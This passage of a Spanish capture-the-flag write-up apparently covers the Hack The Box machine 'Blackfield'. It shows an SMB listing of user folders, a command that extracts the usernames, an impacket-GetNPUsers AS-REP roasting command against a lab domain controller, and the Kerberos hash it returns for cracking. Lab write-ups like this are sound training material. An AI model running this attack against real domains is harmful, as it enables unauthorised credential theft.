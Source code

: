 ```bash
  ASanwardeker                        D        0  Wed Jun  3 18:47:11 2020                                                                                                                   
  AShadaia                            D        0  Wed Jun  3 18:47:11 2020                                                                                                                   
  ASischo                             D        0  Wed Jun  3 18:47:11 2020                                                                                                                   
  ASpruce                             D        0  Wed Jun  3 18:47:11 2020                                                                                                                   
  ATakach                             D        0  Wed Jun  3 18:47:11 2020                                                                                                                   
  ATaueg                              D        0  Wed Jun  3 18:47:11 2020                                                                                                                   
  ATwardowski                         D        0  Wed Jun  3 18:47:11 2020                                                                                                                   
  audit2020                           D        0  Wed Jun  3 18:47:11 2020                                                                                                                   
  AWangenheim                         D        0  Wed Jun  3 18:47:11 2020                                                                                                                   
  AWorsey                             D        0  Wed Jun  3 18:47:11 2020                                                                                                                   
  AZigmunt                            D        0  Wed Jun  3 18:47:11 2020                                                                                                                   
  BBakajza                            D        0  Wed Jun  3 18:47:11 2020                                                                                                                   
  BBeloucif                           D        0  Wed Jun  3 18:47:11 2020                                                                                                                   
  BCarmitcheal                        D        0  Wed Jun  3 18:47:11 2020                                                                                                                   
  BConsultant                         D        0  Wed Jun  3 18:47:11 2020                                                                                                                   
  BErdossy                            D        0  Wed Jun  3 18:47:11 2020 
  [..SNIP..]
```

Transformamos el formato para quedarnos unicamente con los usuarios.

```bash
❯ cat users | cut -d ' ' -f 3 > users.txt
```

Ahora podemos efectuar el ASREPRoast. Para ello usaremos la herramienta de impacket "impacket-GetNPUsers"

```bash
❯ impacket-GetNPUsers BLACKFIELD.local/ -usersfile users.txt -dc-ip 10.10.10.192 -request
```

> Este ataque se aprovecha de los usuarios que no necesitan una pre-autenticación en Kerberos. Sin necesidad de conocer credenciales podemos solicitar un TGT que posteriormente podemos intentar romper con herramientas como john.

Al lanzar el ataque podemos extraer el hash de uno de los usuarios:

```bash
$krb5asrep$23$support@BLACKFIELD.LOCAL:5ff9914f3664d8ea565fdfb3efcbdf11$fbc22a7d1ebbb784ed8a4c2eeb5ebcb369f806e7da93331c29310f4efd2914be57f60c259b0492793ab0876f4a1920b039390d849079a3a66f674
f905f69c5efbd28732f749f77f4f303cbcd175e3d02390d47bf9cf328d9bd2b41bf11cb1bf8bca9a571cec12a95634d6b66716592f3f842c17a035406bece0998e53592784a42f7a522837d1338473a5b17b5ac0c77fa2d3fb66de845acb7
a00dc1838f13a32a208a26febdff5a77358b78a5a741a952ebd2d8061f78633b9a474371723d2297b041ac5c203303516b12b636b5149e5a3907d1d3b2021a720e9f5455289f5935f954a454f664b473faec962fc4b404ba38e82e
```
